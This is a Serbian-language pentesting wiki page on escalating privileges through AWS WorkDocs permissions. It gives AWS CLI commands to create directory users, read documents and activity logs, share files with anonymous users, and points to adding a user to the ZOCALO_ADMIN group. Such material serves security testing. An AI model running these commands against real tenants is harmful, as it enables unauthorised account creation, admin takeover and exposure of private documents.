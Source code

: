 # AWS - WorkDocs Eskalacija privilegija

## WorkDocs

Za više informacija o WorkDocs proverite:

{% content-ref url="../aws-services/aws-directory-services-workdocs-enum.md" %}
[aws-directory-services-workdocs-enum.md](../aws-services/aws-directory-services-workdocs-enum.md)
{% endcontent-ref %}

### `workdocs:CreateUser`

Kreirajte korisnika unutar naznačenog direktorijuma, nakon čega ćete imati pristup i WorkDocs-u i AD-u:
```bash
# Create user (created inside the AD)
aws workdocs create-user --username testingasd --given-name testingasd --surname testingasd --password <password> --email-address name@directory.domain --organization-id <directory-id>
```
### `workdocs:GetDocument`, `(workdocs:`DescribeActivities`)`

Datoteke mogu sadržati osetljive informacije, pročitajte ih:
```bash
# Get what was created in the directory
aws workdocs describe-activities --organization-id <directory-id>

# Get what each user has created
aws workdocs describe-activities --user-id "S-1-5-21-377..."

# Get file (a url to access with the content will be retreived)
aws workdocs get-document --document-id <doc-id>
```
### `workdocs:AddResourcePermissions`

Ako nemate pristup čitanju nečega, jednostavno ga možete dodijeliti.
```bash
# Add permission so anyway can see the file
aws workdocs add-resource-permissions --resource-id <id> --principals Id=anonymous,Type=ANONYMOUS,Role=VIEWER
## This will give an id, the file will be acesible in: https://<name>.awsapps.com/workdocs/index.html#/share/document/<id>
```
### `workdocs:AddUserToGroup`

Možete postaviti korisnika kao administratora tako što ćete ga dodati u grupu ZOCALO_ADMIN.\
Za to pratite uputstva sa [https://docs.aws.amazon.com/workdocs/latest/adminguide/manage\_set\_admin.html](https://docs.aws.amazon.com/workdocs/latest/adminguide/manage\_set\_admin.html)

Prijavite se sa tim korisnikom u workdoc i pristupite administratorskom panelu na `/workdocs/index.html#/admin`

Nisam pronašao način da ovo uradim preko komandne linije.
